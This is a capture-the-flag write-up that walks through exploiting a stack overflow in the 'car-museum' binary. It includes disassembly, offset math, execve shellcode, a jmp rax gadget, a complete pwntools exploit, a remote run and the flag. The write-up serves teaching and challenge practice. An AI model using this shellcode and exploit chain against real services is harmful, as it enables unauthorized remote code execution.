






# Car Museum - PWN Write-Up

**Category:** PWN  
**Difficulty:** Easy  
**Challenge:** car-museum  
**Files:** `car-museum`

---

## TL;DR

This binary is a small menu-driven ELF with a **stack-based overflow** in the exit review path.
The bug happens because the program reads up to `0x20` bytes into a stack buffer that starts at `rbp-0xc`, which is close enough to reach both saved `rbp` and saved `rip`.

Since the binary is **non-PIE**, has **no canary**, and the stack is **executable**, I did not need a libc leak or a long ROP chain.
The shortest reliable route was:

1. create enough cats so index `9` exists  
2. place shellcode in cat `9`'s description  
3. trigger the review overflow on exit  
4. overwrite `rip` with a `jmp rax` gadget  
5. use a tiny stage-1 stub in the review buffer to jump backward into the shellcode  

That gave me code execution on the remote service and the flag:

> **upCTF{c4tc4ll1ng_1s_n0t_c00l-MnAQxzepb9a90f97}**

---

## Environment / Tools

I solved this one with standard Linux binary exploitation tooling:

* **Linux:** `file`, `readelf`, `objdump`, `nm`, `sha256sum`, `md5sum`
* **Pwntools:** for the final exploit script
* **Optional:** `gdb` / `pwndbg` for local debugging

---

## Artifact Fingerprint

### File identification

```bash
file car-museum
# ELF 64-bit LSB executable, x86-64, dynamically linked, not stripped
```



This already tells me the challenge is a normal Linux userland binary and not a script wrapper or packed blob.

---

### Hashes (reproducibility)

```text
MD5: fc251ab5e8c6d2a6af0b872cb8dbe1fc
SHA256: c680a318bc43d11cb7eccf89e28439fad42f782d6deff4118884b236b260b8db
```



---

### ELF / mitigation overview

From `readelf` and the program headers, I got the mitigation picture pretty quickly:

* **Arch:** x86-64
* **PIE:** disabled (`EXEC`)
* **NX:** disabled (`GNU_STACK` is `RWE`)
* **Canary:** none
* **RELRO:** partial
* **CET notes present:** `IBT, SHSTK`

Useful details:

```bash
readelf -h car-museum
readelf -l car-museum
readelf -n car-museum
```



Relevant observations:

* `Type: EXEC` means the text base is fixed, so binary gadgets have stable addresses.
* `GNU_STACK` is marked `RWE`, so the stack is executable.
* The GNU property note advertises `IBT, SHSTK`, but the remote exploit path still worked fine in practice.

That combination already suggested a very simple exploit might be enough if I could find a direct stack overwrite.

---

### Interesting symbols

```bash
nm -n car-museum | egrep ' museum$| main$| print_cat$'
```



Relevant output:

```text
000000000040136c T print_cat
00000000004013f8 T museum
0000000000401892 T main
```

The binary is not stripped, which makes static analysis much faster.
The `museum()` function is where the whole menu logic lives, so that was the obvious place to focus first.

---

## Solution Steps (single consolidated section)

### Step 1 — Reverse the menu logic in `museum`

Disassembling `museum()` showed that the program stores all cat records directly on the stack.
The local array starts at:

```text
[rbp-0x330]
```

and each cat entry is `0x50` bytes wide:

* `name` at offset `0x00`
* `description` at offset `0x10`

So the stack frame is doing double duty here:

* it stores the menu locals
* it stores the whole cat table

That is usually a very good sign in pwn challenges because any oversized input into one of those regions can end up smashing nearby control data.

---

### Step 2 — Identify the obvious write primitives

There are two places worth noticing immediately.

#### Add new cat

When I choose option `2`, the program does an `fgets(..., 0x20, ...)` directly into the next cat slot.
That starts at the beginning of the struct, so it overflows the `name` field and spills into the description.

That is sloppy, but it stays inside the same `0x50`-byte struct, so by itself it is not enough to reach saved `rip`.

#### Edit description

When I choose option `3`, the program writes up to `0x40` bytes into the description field.
Since the description itself is `0x40` bytes long, this is actually perfect for **staging shellcode** inside a cat entry.

So at this point I had:

* one clean shellcode staging area  
* one likely stack frame full of interesting targets  

The remaining task was to find a write primitive that actually reaches the function epilogue.

---

### Step 3 — Find the real bug in the exit review path

The actual vulnerability is in option `4` when the program asks whether I want to leave a review.

Relevant pattern in `museum()`:

```asm
lea    rax,[rbp-0xc]
mov    esi,0x20
mov    rdi,rax
call   fgets@plt
```

So the review buffer starts at:

```text
rbp-0xc
```

but `fgets` reads up to `0x20` bytes.
That is the bug.

The overwrite math is straightforward:

* review buffer start: `rbp-0xc`
* saved `rbp`: `rbp+0x0` → offset `12`
* saved `rip`: `rbp+0x8` → offset `20`

So the review input can directly overwrite the return address.

I also noticed one small quirk right after the read:

```asm
mov BYTE PTR [rbp-0x5],0x0
```

That means the program forcibly writes a null byte into review-buffer offset `7`.
It does not kill the exploit, but it matters when laying out the final payload.



At this point the challenge was basically solved conceptually:

* shellcode goes in a cat description
* exit review smashes `rip`
* control flow jumps into attacker-controlled bytes

---

### Step 4 — Work out the exact stack layout I want to use

Since each cat entry is `0x50` bytes and the cat array starts at `rbp-0x330`, the address of cat `9` is:

```text
rbp-0x330 + 9*0x50 = rbp-0x60
```

The description field for cat `9` starts `0x10` bytes into that struct, so the final shellcode landing spot is:

```text
rbp-0x50
```

The review buffer starts at `rbp-0xc`, so I needed a tiny first-stage stub that could land there and jump backward into `rbp-0x50`.

A short relative jump was enough.

From the review buffer:

* stage-1 starts at `rbp-0xc`
* after a 2-byte short jump, execution continues from `rbp-0xa`
* target shellcode is at `rbp-0x50`

So the delta is:

```text
-0x46
```

That gives the 2-byte stub:

```python
b"\xeb\xba"
```

which is just:

```asm
jmp short -0x46
```

That was perfect because it is tiny, survives the null-byte clobber at offset `7`, and cleanly transfers execution into the staged shellcode.

---

### Step 5 — Find the control-transfer gadget

Because the overwritten return address needs to land somewhere useful, I searched for an easy gadget in the fixed binary text.

The best one was:

```text
0x40118c : jmp rax
```

```bash
objdump -d -M intel car-museum | grep 'jmp    rax'
```



This fits nicely because after `fgets(review_buf, 0x20, stdin)`, the function returns with `rax` still holding the pointer to the review buffer.
So the final idea became:

1. overwrite saved `rip` with `0x40118c`  
2. function returns  
3. `jmp rax` transfers execution to the review buffer  
4. the 2-byte stage-1 stub jumps backward to cat `9` description  
5. staged shellcode runs  

No libc leak, no ret2libc, no long ROP chain.

---

### Step 6 — Build the final payload layout

The review buffer reaches saved `rip` at offset `20`, so the payload is:

```text
[ stage1 jump ][ padding ][ fake rbp ][ saved rip -> jmp rax ]
```

Concrete layout:

```python
stage1   = b"\xeb\xba"
pad      = b"A" * 10
fake_rbp = b"B" * 8
rip      = p64(0x40118c)
```

That gives exactly 28 bytes before the newline.

For the second-stage code, I used standard x86-64 `/bin//sh` shellcode and stored it in cat `9`'s description.
Since the stack is executable on this target, that is enough.

---

### Step 7 — Write and run the exploit

The exploit flow is simple:

1. add 7 new cats so index `9` exists  
2. edit cat `9` description and write shellcode  
3. choose exit  
4. answer `y` to leave a review  
5. send the overflow payload  
6. drop to interactive mode and read the flag  

Final exploit:

```python
#!/usr/bin/env python3
from pwn import *

exe = "./car-museum"
elf = context.binary = ELF(exe, checksec=False)
context.arch = "amd64"
context.os = "linux"

HOST = args.HOST or "46.225.117.62"
PORT = int(args.PORT or 30024)

JMP_RAX = 0x40118C

SHELLCODE = (
    b"\x48\x31\xf6"
    b"\x56"
    b"\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68"
    b"\x57"
    b"\x54"
    b"\x5f"
    b"\x6a\x3b"
    b"\x58"
    b"\x99"
    b"\x0f\x05"
)

def start():
    if args.REMOTE:
        return remote(HOST, PORT)
    return process(exe)

def add_cat(p, name=b"X"):
    p.sendlineafter(b"Choice:", b"2")
    p.sendlineafter(b"name?", name)

def edit_desc(p, idx, data):
    p.sendlineafter(b"Choice:", b"3")
    p.sendlineafter(b"editing?", str(idx).encode())
    p.sendafter(b"New description:", data + b"\n")

def trigger_review_overflow(p, payload):
    p.sendlineafter(b"Choice:", b"4")
    p.sendlineafter(b"[y/n]:", b"y")
    p.sendafter(b"Review:", payload + b"\n")

def build_payload():
    stage1 = b"\xeb\xba"
    pad = b"A" * 10
    fake_rbp = b"B" * 8
    rip = p64(JMP_RAX)
    return stage1 + pad + fake_rbp + rip

def main():
    p = start()

    for _ in range(7):
        add_cat(p, b"X")

    edit_desc(p, 9, SHELLCODE)
    trigger_review_overflow(p, build_payload())
    p.interactive()

if __name__ == "__main__":
    main()
```

---

### Step 8 — Remote validation

I ran the exploit against the challenge instance:

```bash
python3 exploit_car_museum.py REMOTE=1 HOST=46.225.117.62 PORT=30024
```

Observed output:

```text
[+] Opening connection to 46.225.117.62 on port 30024: Done
[*] Switching to interactive mode
 upCTF{c4tc4ll1ng_1s_n0t_c00l-MnAQxzepb9a90f97}
$
```

That confirms the exploit chain works on the remote service and the flag is valid.

---

## Final Answer

**Flag:**

> **upCTF{c4tc4ll1ng_1s_n0t_c00l-MnAQxzepb9a90f97}**

---

## Notes / Takeaways

* The intended challenge path was much simpler than a full ret2libc route because the stack was executable and the binary was non-PIE.
* The cleanest bug was not in the cat creation path, but in the **review input during exit**.
* Storing the whole cat table on the stack made the challenge much easier because I could use one stack-resident object as a shellcode stage and another stack-resident bug to smash `rip`.
* The `jmp rax` gadget removed the need for stack pointer recovery or a more annoying ROP chain.
* Even with modern-looking GNU property notes, the remote behavior is what matters most in CTF exploitation. The exploit still worked cleanly on the provided service.
